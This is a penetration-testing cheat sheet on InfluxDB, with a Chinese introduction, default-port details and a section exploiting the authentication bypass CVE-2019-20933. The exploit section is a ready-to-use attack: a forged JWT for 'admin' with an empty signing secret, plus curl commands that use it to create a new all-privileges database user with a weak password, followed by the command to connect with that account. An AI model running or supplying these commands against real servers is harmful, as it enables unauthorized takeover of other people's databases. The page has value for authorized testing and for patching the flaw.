 # InfluxDB

<details>

<summary>Introduction</summary>

InfluxDB 是一个开源的时间序列数据库，专为处理时间相关的数据而设计。它特别适用于存储和查询来自传感器、监控系统、应用程序指标和日志等时序数据。InfluxDB 具有高性能、可扩展性和灵活的数据模型，支持快速插入和复杂的查询操作。它提供了丰富的功能，如数据持久化、数据压缩、数据分片和数据可视化等。InfluxDB 还提供了强大的查询语言 InfluxQL 和持续查询功能，使得用户可以方便地分析和监控时序数据。由于其特定的设计和功能，InfluxDB 被广泛应用于监控、物联网、应用程序性能分析和实时数据分析等领域。

</details>

<table><thead><tr><th width="178">Name</th><th>InfluxDB</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>8086</td></tr><tr><td><strong>RCE</strong></td><td>N/A</td></tr><tr><td><strong>Vulnerability</strong></td><td>Unauthorized Access (CVE-2019-20933)</td></tr></tbody></table>

## Unauthorized Access (CVE-2019-20933)

{% code title="Environment" %}
```bash
HOST=; PORT=8086; # TARGET HOST INFO
URL=http://$HOST:$PORT;
curl $URL/debug/vars
```
{% endcode %}

Generate a Token using [https://jwt.io/](https://jwt.io/). The HEADER and PAYLOAD are shown below, and the VERIFY SIGNATURE is set to empty.

```bash
# HEADER: ALGORITHM & TOKEN TYPE
{
  "alg": "HS256",
  "typ": "JWT"
}
# PAYLOAD
{
  "username": "admin",
  "exp": 2986346267
}
```

Vulnerabilities can be verified through the curl command (you can also through add HTTP Header to access).

```bash
AUTH="Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoyOTg2MzQ2MjY3fQ.LJDvEy5zvSEpA_C6pnK3JJFkUKGq9eEi8T2wdum3R_s"
BODY=q="CREATE USER \"influx\" with PASSWORD '123456' WITH ALL PRIVILEGES;"
curl -X POST -H $AUTH -d $BODY $URL/query
```

If the return result contains the field `{"results":[{"statement_id":0}]}`, it means that the user has been added successfully.

After successfully adding a user, you can use the graphical tool [chronograf](https://github.com/influxdata/chronograf) to operate the database.”

```bash
chronograf --influxdb-url="$URL" --influxdb-username="influx" --influxdb-password="123456"
```

## Commonly used commands

```bash
show databases # Show all databases
show users # Show all users
show measurements # Show all measurements
create user "influx" with password 'password' with all privileges; # Create user
create database "db_name" # Create database
drop database "db_name" # Delete database
use db_name # Use database
select * from measurement_name limit 10 # Query the first ten data of the measurement_name table
```
